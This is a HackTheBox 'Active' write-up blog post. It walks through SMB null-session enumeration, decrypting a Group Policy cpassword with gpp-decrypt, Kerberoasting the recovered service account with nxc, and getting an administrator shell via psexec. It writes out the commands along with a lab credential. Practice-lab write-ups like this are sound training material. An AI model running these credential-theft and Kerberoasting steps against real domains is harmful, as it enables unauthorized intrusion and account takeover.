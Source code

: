```yaml
---
layout: post
title: "Active"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [htb, writeup, security, ad, windows]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


starting with nmap 
```bash
sudo nmap -sC -sV -p- -oN active -T4 10.10.10.100
```
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525110417.png)


smb null session is allowed , let's explore open shares
```bash
nxc smb 10.10.10.100 -u '' -p '' --shares -M spider_plus
```
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525110701.png)
`Groups.xml` is very interesting
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525110751.png)


let's connect to this share ,and get this file

```bash
smbclient -N \\\\10.10.10.100\\Replication -U ''
```

we found cpassword , we can decrypt it using `gpp-decrypt`
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525110913.png)

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525111021.png)

we got creds for the SVC_TGS
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525111146.png)


let's try kerberoasting attack using the creds we found

```nxc ldap 10.10.10.100 -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18' --kerberoast kerberoasting
```
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525111243.png)

let's try to crack it

![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525111411.png)

we can now get psexec to get shell on the box as administrator 

![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240525111519.png)
